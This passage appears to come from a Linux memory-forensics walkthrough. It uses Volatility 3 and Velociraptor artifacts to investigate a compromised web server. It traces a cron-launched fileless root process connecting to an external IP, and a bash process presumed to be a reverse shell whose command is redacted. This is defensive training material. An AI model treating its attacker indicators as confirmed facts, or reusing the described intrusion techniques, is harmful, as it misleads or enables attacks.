1       systemd 0x7fd3ab2c7000  0x7fd3ab2c9000  /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1   Disabled
1       systemd 0x7fd3ab2e9000  0x7fd3ab2eb000  /usr/lib/x86_64-linux-gnu/librt-2.31.so Disabled
1       systemd 0x7fd3ab54f000  0x7fd3ab571000  /usr/lib/x86_64-linux-gnu/libc-2.31.so  Disabled
1       systemd 0x7ffecd0e0000  0x7ffecd0e2000  [vdso]  Disabled
359     systemd-journal 0x7f1b61590000  0x7f1b61592000  /usr/lib/x86_64-linux-gnu/libcap-ng.so.0.0.0    Disabled
359     systemd-journal 0x7f1b61598000  0x7f1b615a5000  /usr/lib/x86_64-linux-gnu/libm-2.31.so  Disabled
<SNIP>
```

##### linux.envvars

Lists processes with their environment variables.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.envvars

Volatility 3 Framework 2.5.2

PID     PPID    COMM    KEY     VALUE

1       0       systemd find_preseed    /preseed.cfg
1       0       systemd HOME    /
1       0       systemd init    /sbin/init
1       0       systemd NETWORK_SKIP_ENSLAVED
1       0       systemd locale  en_US
1       0       systemd TERM    linux
1       0       systemd BOOT_IMAGE      /boot/vmlinuz-5.15.0-84-generic
1       0       systemd drop_caps
1       0       systemd PATH    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
1       0       systemd PWD     /
1       0       systemd rootmnt /root
1       0       systemd priority        critical
359     1       systemd-journal LANG    en_US.UTF-8
359     1       systemd-journal PATH    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
359     1       systemd-journal NOTIFY_SOCKET   /run/systemd/notify
359     1       systemd-journal LISTEN_PID      359
359     1       systemd-journal LISTEN_FDS      4
359     1       systemd-journal LISTEN_FDNAMES  systemd-journald-audit.socket:systemd-journald-dev-log.socket:systemd-journald.socket:systemd-journald.socket
359     1       systemd-journal INVOCATION_ID   ed4216a465c8491b88c1c580fdf51874
359     1       systemd-journal RUNTIME_DIRECTORY       /run/systemd/journal
409     1       systemd-udevd   LANG    en_US.UTF-8
409     1       systemd-udevd   PATH    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
409     1       systemd-udevd   NOTIFY_SOCKET   /run/systemd/notify
409     1       systemd-udevd   LISTEN_PID      409
409     1       systemd-udevd   LISTEN_FDS      2
<SNIP>
```

##### linux.lsof

Lists open files similar to `lsof` command.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.lsof

Volatility 3 Framework 2.5.2

PID     Process FD      Path

1       systemd 0       /dev/null
1       systemd 1       /dev/null
1       systemd 2       /dev/null
1       systemd 3       /dev/kmsg
1       systemd 4       anon_inode:[14605]
1       systemd 5       anon_inode:[14605]
1       systemd 6       anon_inode:[14605]
1       systemd 7       /sys/fs/cgroup/unified
1       systemd 8       anon_inode:[14605]
1       systemd 9       anon_inode:[14605]
1       systemd 10      /proc/1/mountinfo
1       systemd 11      anon_inode:[14605]
1       systemd 12      anon_inode:[14605]
1       systemd 13      anon_inode:[14605]
1       systemd 14      /proc/swaps
1       systemd 15      socket:[27295]
1       systemd 16      anon_inode:[14605]
1       systemd 17      anon_inode:[14605]
1       systemd 18      socket:[61891]
1       systemd 19      socket:[27299]
1       systemd 20      socket:[27301]
1       systemd 21      socket:[61860]
1       systemd 22      socket:[224882]
1       systemd 23      socket:[61862]
1       systemd 24      socket:[57750]
1       systemd 25      anon_inode:[14605]
1       systemd 26      /dev/autofs
<SNIP>
```

##### linux.malfind

Lists process memory ranges that potentially contain injected code.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.malfind

Volatility 3 Framework 2.5.2

PID     Process Start   End     Protection      Hexdump Disasm

788     networkd-dispat 0x7f925465e000  0x7f925465f000  rwx
00 00 00 00 00 00 00 00 ........
43 00 00 00 00 00 00 00 C.......
4c 8d 15 f9 ff ff ff ff L.......
25 03 00 00 00 0f 1f 00 %.......
40 f1 b9 53 92 7f 00 00 @..S....
08 2d 37 01 00 00 00 00 .-7.....
20 9b 85 53 92 7f 00 00 ...S....
f0 2c 37 01 00 00 00 00 .,7.....        00 00 00 00 00 00 00 00 43 00 00 00 00 00 00 00 4c 8d 15 f9 ff ff ff ff 25 03 00 00 00 0f 1f 00 40 f1 b9 53 92 7f 00 00 08 2d 37 01 00 00 00 00 20 9b 85 53 92 7f 00 00 f0 2c 37 01 00 00 00 00
914     unattended-upgr 0x7f44d35aa000  0x7f44d35ab000  rwx
00 00 00 00 00 00 00 00 ........
43 00 00 00 00 00 00 00 C.......
4c 8d 15 f9 ff ff ff ff L.......
25 03 00 00 00 0f 1f 00 %.......
40 41 ae d2 44 7f 00 00 @A..D...
88 8f 99 01 00 00 00 00 ........
20 cb 35 d2 44 7f 00 00 ..5.D...
70 8f 99 01 00 00 00 00 p.......        00 00 00 00 00 00 00 00 43 00 00 00 00 00 00 00 4c 8d 15 f9 ff ff ff ff 25 03 00 00 00 0f 1f 00 40 41 ae d2 44 7f 00 00 88 8f 99 01 00 00 00 00 20 cb 35 d2 44 7f 00 00 70 8f 99 01 00 00 00 00
1165    sysmon  0x7fffe4026000  0x7fffe4071000  rwx
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........
00 00 00 00 00 00 00 00 ........        00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
<SNIP>
```

##### linux.mountinfo

Lists mount points on processes mount namespaces.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.mountinfo
Volatility 3 Framework 2.5.2

MNT_NS_ID       MOUNT ID        PARENT_ID       MAJOR:MINOR     ROOT    MOUNT_POINT     MOUNT_OPTIONS   FIELDS  FSTYPE  MOUNT_SRC        SB_OPTIONS

4026531841      1       1       0:2     /       /       rw              rootfs  none    rw
4026531841      24      29      0:22    /       /sys    rw,nosuid,nodev,noexec,relatime shared:7        sysfs   sysfs   rw
4026531841      25      29      0:23    /       /proc   rw,nosuid,nodev,noexec,relatime shared:14       proc    proc    rw
4026531841      26      29      0:5     /       /dev    rw,nosuid,noexec,relatime       shared:2        devtmpfs        udev     rw
4026531841      27      26      0:24    /       /dev/pts        rw,nosuid,noexec,relatime       shared:3        devpts  devpts   rw
4026531841      28      29      0:25    /       /run    rw,nosuid,nodev,noexec,relatime shared:5        tmpfs   tmpfs   rw
<SNIP>
```

##### linux.proc.Maps

Lists all memory maps for all processes.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.proc.Maps

Volatility 3 Framework 2.5.2

PID     Process Start   End     Flags   PgOff   Major   Minor   Inode   File Path       File output

1       systemd 0x5612e9fbe000  0x5612e9ff0000  r--     0x0     8       5       1449561 /usr/lib/systemd/systemd        Disabled
1       systemd 0x5612e9ff0000  0x5612ea0ae000  r-x     0x32000 8       5       1449561 /usr/lib/systemd/systemd        Disabled
1       systemd 0x5612ea0ae000  0x5612ea104000  r--     0xf0000 8       5       1449561 /usr/lib/systemd/systemd        Disabled
1       systemd 0x5612ea104000  0x5612ea14a000  r--     0x145000        8       5       1449561 /usr/lib/systemd/systemdDisabled
1       systemd 0x5612ea14a000  0x5612ea14b000  rw-     0x18b000        8       5       1449561 /usr/lib/systemd/systemdDisabled
1       systemd 0x5612eaac1000  0x5612eaf59000  rw-     0x0     0       0       0       [heap]  Disabled
1       systemd 0x7fd39c000000  0x7fd39c021000  rw-     0x0     0       0       0       Anonymous Mapping       Disabled
1       systemd 0x7fd39c021000  0x7fd3a0000000  ---     0x0     0       0       0       Anonymous Mapping       Disabled
1       systemd 0x7fd3a4000000  0x7fd3a4021000  rw-     0x0     0       0       0       Anonymous Mapping       Disabled
1       systemd 0x7fd3a4021000  0x7fd3a8000000  ---     0x0     0       0       0       Anonymous Mapping       Disabled
1       systemd 0x7fd3a9727000  0x7fd3a9728000  ---     0x0     0       0       0       Anonymous Mapping       Disabled
1       systemd 0x7fd3a9728000  0x7fd3a9f28000  rw-     0x0     0       0       0       Anonymous Mapping       Disabled
1       systemd 0x7fd3a9f28000  0x7fd3a9f29000  ---     0x0     0       0       0       Anonymous Mapping       Disabled
1       systemd 0x7fd3a9f29000  0x7fd3aa730000  rw-     0x0     0       0       0       Anonymous Mapping       Disabled
1       systemd 0x7fd3aa730000  0x7fd3aa73d000  r--     0x0     8       5       1443983 /usr/lib/x86_64-linux-gnu/libm-2.31.so   Disabled
<SNIP>
```

To dump a specifc process, use `--pid` and `--dump` options. This command will save each memory segment to a separate file.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.proc.Maps --pid 3321 --dump

Volatility 3 Framework 2.5.2

PID     Process Start   End     Flags   PgOff   Major   Minor   Inode   File Path       File output

3321    sh      0x55df1865a000  0x55df1865f000  r--     0x0     8       5       1442011 /usr/bin/dash   pid.3321.vma.0x55df1865a000-0x55df1865f000.dmp
3321    sh      0x55df1865f000  0x55df18672000  r-x     0x5000  8       5       1442011 /usr/bin/dash   pid.3321.vma.0x55df1865f000-0x55df18672000.dmp
3321    sh      0x55df18672000  0x55df18678000  r--     0x18000 8       5       1442011 /usr/bin/dash   pid.3321.vma.0x55df18672000-0x55df18678000.dmp
3321    sh      0x55df18678000  0x55df1867a000  r--     0x1d000 8       5       1442011 /usr/bin/dash   pid.3321.vma.0x55df18678000-0x55df1867a000.dmp
3321    sh      0x55df1867a000  0x55df1867b000  rw-     0x1f000 8       5       1442011 /usr/bin/dash   pid.3321.vma.0x55df1867a000-0x55df1867b000.dmp
3321    sh      0x55df1867b000  0x55df1867d000  rw-     0x0     0       0       0       Anonymous Mapping       pid.3321.vma.0x55df1867b000-0x55df1867d000.dmp
3321    sh      0x55df19d6e000  0x55df19d8f000  rw-     0x0     0       0       0       [heap]  pid.3321.vma.0x55df19d6e000-0x55df19d8f000.dmp
3321    sh      0x7fbf5ffb9000  0x7fbf5ffdb000  r--     0x0     8       5       1443981 /usr/lib/x86_64-linux-gnu/libc-2.31.so   pid.3321.vma.0x7fbf5ffb9000-0x7fbf5ffdb000.dmp
3321    sh      0x7fbf5ffdb000  0x7fbf60153000  r-x     0x22000 8       5       1443981 /usr/lib/x86_64-linux-gnu/libc-2.31.so   pid.3321.vma.0x7fbf5ffdb000-0x7fbf60153000.dmp
3321    sh      0x7fbf60153000  0x7fbf601a1000  r--     0x19a000        8       5       1443981 /usr/lib/x86_64-linux-gnu/libc-2.31.so   pid.3321.vma.0x7fbf60153000-0x7fbf601a1000.dmp
3321    sh      0x7fbf601a1000  0x7fbf601a5000  r--     0x1e7000        8       5       1443981 /usr/lib/x86_64-linux-gnu/libc-2.31.so   pid.3321.vma.0x7fbf601a1000-0x7fbf601a5000.dmp
3321    sh      0x7fbf601a5000  0x7fbf601a7000  rw-     0x1eb000        8       5       1443981 /usr/lib/x86_64-linux-gnu/libc-2.31.so   pid.3321.vma.0x7fbf601a5000-0x7fbf601a7000.dmp
3321    sh      0x7fbf601a7000  0x7fbf601ad000  rw-     0x0     0       0       0       Anonymous Mapping       pid.3321.vma.0x7fbf601a7000-0x7fbf601ad000.dmp
<SNIP>
```

##### linux.sockstat

Lists all network connections for all processes.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.sockstat
Volatility 3 Framework 2.5.2

NetNS   Pid     FD      Sock Offset     Family  Type    Proto   Source Addr     Source Port     Destination Addr        Destination Port State   Filter

4026531840      1       15      0x93fe093ea000  AF_NETLINK      RAW     NETLINK_KOBJECT_UEVENT  groups:0x00000002       1group:0x00000000        0       UNCONNECTED     filter_type=socket_filter,bpf_filter_type=cBPF
4026531840      1       18      0x93fe0a371540  AF_UNIX STREAM  -       /run/systemd/journal/stdout     61891   -       60785    ESTABLISHED     -
4026531840      1       19      0x93fe0956eec0  AF_UNIX STREAM  -       /run/systemd/private    27299   -       -       LISTEN   -
4026531840      1       20      0x93fe0956c000  AF_UNIX STREAM  -       /run/systemd/userdb/io.systemd.DynamicUser      27301    -       -       LISTEN  -
4026531840      1       21      0x93fe4e4cc880  AF_UNIX STREAM  -       /run/systemd/journal/stdout     61860   -       60698    ESTABLISHED     -
4026531840      1       22      0x93fe72135540  AF_UNIX STREAM  -       /run/systemd/journal/stdout     224882  -       225323   ESTABLISHED     -
4026531840      1       23      0x93fe4e70d100  AF_UNIX STREAM  -       /run/systemd/journal/stdout     61862   -       60737    ESTABLISHED     -
4026531840      1       24      0x93fe0dd90880  AF_UNIX STREAM  -       /run/systemd/journal/stdout     57750   -       58545    ESTABLISHED     -
4026531840      1       30      0x93fe0956d540  AF_UNIX DGRAM   -       /run/systemd/notify     27296   -       -       UNCONNECTED  
<SNIP>
```

## Forensics

Assumed collected artifacts:

|**Artifact**|**Location**|
|---|---|
|Scenario case artifacts general folder|`/home/linuxforensics/Desktop/cases/scenario1`|
|Memory dump|`/home/linuxforensics/Desktop/cases/scenario1/web-server-dump`|
|Apache web application logs|`/home/linuxforensics/Desktop/cases/scenario1/apache`|
|Velociraptor offline collection general folder|`/home/linuxforensics/Desktop/cases/scenario1/collection`|
|Velociraptor offline collection parsed results|`/home/linuxforensics/Desktop/cases/scenario1/collection/results`|
|Velociraptor collected raw artifacts|`/home/linuxforensics/Desktop/cases/scenario1/collection/uploads`|
|audit.log|`/home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/audit/audit.log.1`, `/home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/audit/audit.log`|
|Systemd parsed results (journalctl)|`/home/linuxforensics/Desktop/cases/scenario1/journal.json`|
|Root user .viminfo file|`/home/linuxforensics/Desktop/cases/scenario1/root_viminfo`|

Host information:

```bash
linuxforensics@ubuntu:~$ python3 ~/tools/volatility3/vol.py -q -f /home/linuxforensics/Desktop/cases/scenario1/web-server-dump banners.Banners

Volatility 3 Framework 2.5.2

Offset  Banner

0x14c00200      Linux version 5.15.0-86-generic (buildd@lcy02-amd64-086) (gcc (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #96-Ubuntu SMP Wed Sep 20 08:23:49 UTC 2023 (Ubuntu 5.15.0-86.96-generic 5.15.122)
0x16c35778      Linux version 5.15.0-86-generic (buildd@lcy02-amd64-086) (gcc (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #96-Ubuntu SMP Wed Sep 20 08:23:49 UTC 2023 (Ubuntu 5.15.0-86.96-generic 5.15.122)2)
<SNIP>
```

Timezone of the compromised system is ETC/UTC:

```bash
linuxforensics@ubuntu:~$ cat ~/Desktop/cases/scenario1/collection/uploads/auto/etc/timezone

Etc/UTC
```

### Network

Your investigation starts with the analysis of network artifacts, and you will begin by utilizing Volatility to examine TCP connections from the memory dump.

```bash
linuxforensics@ubuntu:~$ python3 ~/tools/volatility3/vol.py -q -f /home/linuxforensics/Desktop/cases/scenario1/web-server-dump linux.sockstat.Sockstat | grep TCP

4026531840      841     14      0x8f6305e52d00  AF_INET STREAM  TCP     127.0.0.53      53      0.0.0.0 0       LISTEN  -
4026531840      910     3       0x8f6307a41b00  AF_INET STREAM  TCP     0.0.0.0 0       0.0.0.0 0       CLOSE   -
4026531840      910     4       0x8f6311bcdf00  AF_INET6        STREAM  TCP     ::      80      ::      0       LISTEN  -
4026531840      916     3       0x8f6307a41b00  AF_INET STREAM  TCP     0.0.0.0 0       0.0.0.0 0       CLOSE   -
4026531840      917     3       0x8f6307a41b00  AF_INET STREAM  TCP     0.0.0.0 0       0.0.0.0 0       CLOSE   -
4026531840      917     4       0x8f6311bcdf00  AF_INET6        STREAM  TCP     ::      80      ::      0       LISTEN  -
4026531840      918     3       0x8f6307a41b00  AF_INET STREAM  TCP     0.0.0.0 0       0.0.0.0 0       CLOSE   -
4026531840      918     4       0x8f6311bcdf00  AF_INET6        STREAM  TCP     ::      80      ::      0       LISTEN  -
4026531840      919     3       0x8f6307a41b00  AF_INET STREAM  TCP     0.0.0.0 0       0.0.0.0 0       CLOSE   -
4026531840      919     4       0x8f6311bcdf00  AF_INET6        STREAM  TCP     ::      80      ::      0       LISTEN  -
4026531840      1441    3       0x8f6307a41b00  AF_INET STREAM  TCP     0.0.0.0 0       0.0.0.0 0       CLOSE   -
4026531840      1441    4       0x8f6311bcdf00  AF_INET6        STREAM  TCP     ::      80      ::      0       LISTEN  -
4026531840      28120   3       0x8f6307a44800  AF_INET STREAM  TCP     0.0.0.0 22      0.0.0.0 0       LISTEN  -
4026531840      28120   4       0x8f631252d580  AF_INET6        STREAM  TCP     ::      22      ::      0       LISTEN  -
4026531840      <PID>   12      0x8f6307a45100  AF_INET STREAM  TCP     192.168.152.225 39294   51.75.64.249    20128   ESTABLISHED      -
4026531840      28645   0       0x8f6305e54800  AF_INET STREAM  TCP     192.168.152.225 59204   192.168.152.180 21      ESTABLISHED      -
<SNIP>
```

You find multiple suspicious network connections:

```bash
NetNS   Pid     FD      Sock Offset     Family  Type    Proto   Source Addr     Source Port     Destination Addr        Destination Port        State   Filter

4026531840      <PID>   12      0x8f6307a45100  AF_INET STREAM  TCP     192.168.152.225 39294   51.75.64.249    20128   ESTABLISHED     -
4026531840      28645   0       0x8f6305e54800  AF_INET STREAM  TCP     192.168.152.225 59204   192.168.152.180 21      ESTABLISHED     -
4026531840      28645   1       0x8f6305e54800  AF_INET STREAM  TCP     192.168.152.225 59204   192.168.152.180 21      ESTABLISHED     -
4026531840      28645   2       0x8f6305e54800  AF_INET STREAM  TCP     192.168.152.225 59204   192.168.152.180 21      ESTABLISHED     -
4026531840      28645   255     0x8f6305e54800  AF_INET STREAM  TCP     192.168.152.225 59204   192.168.152.180 21      ESTABLISHED     -
```

The first one and the most suspicious is `51.75.64.249` IP address. Quick check on VirusTotal showed no significant results:

- https://www.virustotal.com/gui/ip-address/51.75.64.249/detection

As an alternative for examining network artifacts, you can also review the `Linux.Network.NetstatEnriched` artifact obtained by the Velociraptor collector.

```bash
linuxforensics@ubuntu:~$ cat /home/linuxforensics/Desktop/cases/scenario1/collection/results/Linux.Network.NetstatEnriched.json | grep "51.75.64.249" | jq .

{
  "Laddr": "192.168.152.225",
  "Lport": 39294,
  "Raddr": "51.75.64.249",
  "Rport": 20128,
  "Pid": <PID>,
  "Status": "ESTABLISHED",
  "ProcInfo": {
    "Pid": <PID>,
    "Name": "3",
    "Ppid": 28343,
    "CommandLine": "smd",
    "CreateTime": 1697394962000,
    "Times": {
      "cpu": "cpu",
      "user": 4393.34,
      "system": 31.71,
      "idle": 0,
      "nice": 0,
      "iowait": 0,
      "irq": 0,
      "softirq": 0,
      "steal": 0,
      "guest": 0,
      "guestNice": 0
    },
    "Exe": "/memfd: (deleted)",
    "Cwd": "/root",
    "Username": "root",
    "MemoryInfo": {
      "rss": 271679488,
      "vms": 318242816,
      "hwm": 0,
      "data": 0,
      "stack": 0,
      "locked": 0,
      "swap": 0
    }
  },
  "CallChain": "systemd -> cron -> cron -> sh -> run-one -> flock -> python3 -> 3",
  "ChildrenTree": {
    "name": "3",
    "id": "<PID>",
    "start_time": "2023-10-15T18:36:02Z",
    "data": {
      "Pid": <PID>,
      "Name": "3",
      "Ppid": 28343,
      "CommandLine": "smd",
      "CreateTime": 1697394962000,
      "Times": {
        "cpu": "cpu",
        "user": 4393.34,
        "system": 31.71,
        "idle": 0,
        "nice": 0,
        "iowait": 0,
        "irq": 0,
        "softirq": 0,
        "steal": 0,
        "guest": 0,
        "guestNice": 0
      },
      "Exe": "/memfd: (deleted)",
      "Cwd": "/root",
      "Username": "root",
      "MemoryInfo": {
        "rss": 271679488,
        "vms": 318242816,
        "hwm": 0,
        "data": 0,
        "stack": 0,
        "locked": 0,
        "swap": 0
      }
    },
    "children": null
  }
}
```

From there, you can determine that the process connecting to this IP was executed via a cron job. From that artifact, you can also ascertain that Apache is running on that system:

```bash
linuxforensics@ubuntu:~$ cat /home/linuxforensics/Desktop/cases/scenario1/collection/results/Linux.Network.NetstatEnriched.json | jq .


<SNIP>
{
  "Laddr": "::",
  "Lport": 80,
  "Raddr": "::",
  "Rport": 0,
  "Pid": 910,
  "Status": "LISTEN",
  "ProcInfo": {
    "Pid": 910,
    "Name": "httpd",
    "Ppid": 1,
    "CommandLine": "/usr/local/apache2/bin/httpd -k start",
    "CreateTime": 1697391270000,
    "Times": {
      "cpu": "cpu",
      "user": 0.31,
      "system": 0.11,
      "idle": 0,
      "nice": 0,
      "iowait": 0,
      "irq": 0,
      "softirq": 0,
      "steal": 0,
      "guest": 0,
      "guestNice": 0
    },
    "Exe": "/usr/local/apache2/bin/httpd",
    "Cwd": "/",
    "Username": "root",
    "MemoryInfo": {
      "rss": 2293760,
      "vms": 6553600,
      "hwm": 0,
      "data": 0,
      "stack": 0,
      "locked": 0,
      "swap": 0
    }
  },
  <SNIP>
}
```

Review in the Velociraptor collection the other four TCP connections obtained from the memory dump with a destination port of `TCP/21` and a remote host IP of `192.168.152.180`:

```bash
linuxforensics@ubuntu:~$ cat /home/linuxforensics/Desktop/cases/scenario1/collection/results/Linux.Network.NetstatEnriched.json | grep "192.168.152.180" | jq .

{
  "Laddr": "192.168.152.225",
  "Lport": 59204,
  "Raddr": "192.168.152.180",
  "Rport": 21,
  "Pid": 28645,
  "Status": "ESTABLISHED",
  "ProcInfo": {
    "Pid": 28645,
    "Name": "bash",
    "Ppid": 1,
    "CommandLine": "<REDACTED>",
    "CreateTime": 1697395704000,
    "Times": {
      "cpu": "cpu",
      "user": 0.01,
      "system": 0,
      "idle": 0,
      "nice": 0,
      "iowait": 0,
      "irq": 0,
      "softirq": 0,
      "steal": 0,
      "guest": 0,
      "guestNice": 0
    },
    "Exe": "/usr/bin/bash",
    "Cwd": "/usr/bin",
    "Username": "user",
    "MemoryInfo": {
      "rss": 3321856,
      "vms": 5828608,
      "hwm": 0,
      "data": 0,
      "stack": 0,
      "locked": 0,
      "swap": 0
    }
  },
  "CallChain": "systemd -> bash",
  "ChildrenTree": {
    "name": "bash",
    "id": "28645",
    "start_time": "2023-10-15T18:48:24Z",
    "data": {
      "Pid": 28645,
      "Name": "bash",
      "Ppid": 1,
      "CommandLine": "<REDACTED>",
      "CreateTime": 1697395704000,
      "Times": {
        "cpu": "cpu",
        "user": 0.01,
        "system": 0,
        "idle": 0,
        "nice": 0,
        "iowait": 0,
        "irq": 0,
        "softirq": 0,
        "steal": 0,
        "guest": 0,
        "guestNice": 0
      },
      "Exe": "/usr/bin/bash",
      "Cwd": "/usr/bin",
      "Username": "user",
      "MemoryInfo": {
        "rss": 3321856,
        "vms": 5828608,
        "hwm": 0,
        "data": 0,
        "stack": 0,
        "locked": 0,
        "swap": 0
      }
    },
    "children": null
  }
}
```

You can observe the execution of the shell command (`PID: 28645`) that is frequently employed by malicious actors to establish e reverse shell.

